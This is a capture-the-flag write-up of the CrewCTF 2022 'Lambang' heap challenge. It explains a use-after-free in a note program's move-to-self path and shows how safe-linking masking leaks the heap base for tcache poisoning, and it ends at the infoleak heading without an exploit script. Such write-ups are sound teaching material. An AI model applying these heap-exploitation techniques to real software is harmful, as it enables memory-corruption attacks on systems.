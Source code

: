 # **Lambang**

## Description
> Lambang is a Pro Hacker guy he made this challenge to test you.  
author: Linz#0417  
nc lambang.crewctf-2022.crewc.tf 1337  

```console
┌──(kali㉿kali)-[~/Desktop/pwn/crew/lambang]
└─$ checksec mynote_patched
[*] '/home/kali/Desktop/pwn/crew/lambang/mynote_patched'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'.'
                                                                                            
┌──(kali㉿kali)-[~/Desktop/pwn/crew/lambang]
└─$ ./mynote_patched
1. Alloc
2. Show
3. Move
4. Copy
> 
```  

## Reversing  
We have 4 options: Allocate, Show, Move and Copy. They do exactly what they imply  

```c
void alloc(void)

{
  uint uVar1;
  uint uVar2;
  void *pvVar3;
  
  printf("Index: ");
  uVar1 = getint();
  if (6 < uVar1) {
    error("Invalid index");
  }
  printf("Size: ");
  uVar2 = getint();
  if ((uVar2 == 0) || (0x70 < uVar2)) {
    error("Invalid size");
  }
  pvVar3 = malloc((ulong)uVar2);
  *(void **)(notes + (ulong)uVar1 * 0x10) = pvVar3;
  *(uint *)(notes + (ulong)uVar1 * 0x10 + 8) = uVar2;
  printf("Content: ");
  getnline(*(undefined8 *)(notes + (ulong)uVar1 * 0x10),uVar2);
  return;
}
```  
There are 7 indexes where we can store the address of the chunk we allocated. We can have the maximum size of `0x70` bytes and we are allowed to write into those chunks.  
`getint()` does return a number larger than integer, but I could not manage to find a way to exploit that.  

```c
void show(void)

{
  uint uVar1;
  
  printf("Index: ");
  uVar1 = getint();
  if ((6 < uVar1) || (*(long *)(notes + (ulong)uVar1 * 0x10) == 0)) {
    error("Invalid index");
  }
  puts(*(char **)(notes + (ulong)uVar1 * 0x10));
  return;
} 
```  
`show()` shows the content of the chunk we allocated  
  
`copy()` has 2 functionality both: move and copy  

```c
int copy(EVP_PKEY_CTX *dst,EVP_PKEY_CTX *src)

{
  int iVar1;
  uint uVar2;
  uint uVar3;
  void *local_10;
  
  printf("Index (src): ");
  uVar2 = getint();
  if ((6 < uVar2) || (*(long *)(notes + (ulong)uVar2 * 0x10) == 0)) {
    error("Invalid index");
  }
  printf("Index (dest): ");
  uVar3 = getint();
  if (6 < uVar3) {
    error("Invalid index");
  }
  local_10 = (void *)0x0;
  if (*(long *)(notes + (ulong)uVar3 * 0x10) == 0) {
    local_10 = malloc((ulong)*(uint *)(notes + (ulong)uVar2 * 0x10 + 8));
  }
  else if (*(uint *)(notes + (ulong)uVar3 * 0x10 + 8) < *(uint *)(notes + (ulong)uVar2 * 0x10 + 8) )
  {
    error("No enough space");
  }
  else {
    local_10 = *(void **)(notes + (ulong)uVar3 * 0x10);
  }
  memcpy(local_10,*(void **)(notes + (ulong)uVar2 * 0x10),
         (ulong)*(uint *)(notes + (ulong)uVar2 * 0x10 + 8));
  if ((char)dst != '\0') {
    free(*(void **)(notes + (ulong)uVar2 * 0x10));
    *(undefined8 *)(notes + (ulong)uVar2 * 0x10) = 0;
  }
  *(void **)(notes + (ulong)uVar3 * 0x10) = local_10;
  iVar1 = *(int *)(notes + (ulong)uVar2 * 0x10 + 8);
  *(int *)(notes + (ulong)uVar3 * 0x10 + 8) = iVar1;
  return iVar1;
}
```  

The function does check the index, the size, and the address saved in those 7 indexes carefully.  
It works somewhat like this:  
Check address stored at `src` index != null  
--> Check address stored at `des` index, if null malloc a chunk, if not compare the size between `src` and des ( make sure that size in `des` is enough to copy from `src` to `des`)  
--> Copy content from `src` to `des`  
--> If it's a `move` then free the chunk at `src` and set the address stored at `src` index to 0 (prevent use-after-free)  
--> Set address at `des` index to itself (or the address provided by malloc() ), set size to `src` size  

## Exploitation  
There was a UAF bug in `copy()`, particularly in the last 2 steps:  
--> If it's a `move` then free the chunk at `src` and set the address stored at `src` index to 0 (prevent use-after-free)  
--> Set address at `des` index to itself (or the address provided by malloc() ), set size to `src` size  
The problems is when we `move` to itself. The chunk is freed, the address is set to 0 but after that, the address at `des` get set. But `src` = `des`, thus we have a UAF.  
With this UAF, we can `show()` what stored in that chunk, and `copy()` to write to that chunk, after it was freed.  

```console
┌──(kali㉿kali)-[~/Desktop/pwn/crew/lambang]
└─$ ./mynote_patched
1. Alloc
2. Show
3. Move
4. Copy
> 1
Index: 0
Size: 10
Content: AAAA
1. Alloc
2. Show
3. Move
4. Copy
> 3
Index (src): 0
Index (dest): 0
1. Alloc
2. Show
3. Move
4. Copy
> 2
Index: 0
�p^X
1. Alloc
2. Show
3. Move
4. Copy
> 
```  
```console  
0x555555558060 <notes>: 0x000055555555a2a0      0x000000000000000a
0x555555558070 <notes+16>:      0x0000000000000000      0x0000000000000000
0x555555558080 <notes+32>:      0x0000000000000000      0x0000000000000000
0x555555558090 <notes+48>:      0x0000000000000000      0x0000000000000000
0x5555555580a0 <notes+64>:      0x0000000000000000      0x0000000000000000
```  
The address is still there after freed  
```console
gef➤  x/10gx 0x000055555555a2a0 - 0x10
0x55555555a290: 0x0000000000000000      0x0000000000000021
0x55555555a2a0: 0x000000055555555a      0x000055555555a010
0x55555555a2b0: 0x0000000000000000      0x0000000000020d51
```  
Now we can try to overwrite this freed chunk, which is a tcache bin. We can try tcache poisoning, overwrite the fd pointer at `0x55555555a2a0`. But because this was glibc 2.32, there is an additional mitigation, which is safe-linking.  
You can read more about it here: https://research.checkpoint.com/2020/safe-linking-eliminating-a-20-year-old-malloc-exploit-primitive/  
In short,it protects the fd pointer by signing the address with heap address. Because heap address is affted by ASLR, we thus have to leak the heap address before we can overwrite the fd pointer, or else the address we overwrite will be invalid without the signing.  
The formula for masking: P' = P ^ (L >> 12)  
                         P' : the masked address  
                         P  : the original address  
                         L  : the heap address where it's stored at  
                         
When there is only one chunk in tcache bin, P = 0, do the masked address is simply heap address shift left by 12 bit.  
So when we `show()` at address `0x55555555a2a0` it simply prints out the heap address for us `0x000000055555555a`. And we can shift right by 12 bit to get the original heap base address, defeating the aslr, and thus safe-linking.  

### Infoleak  





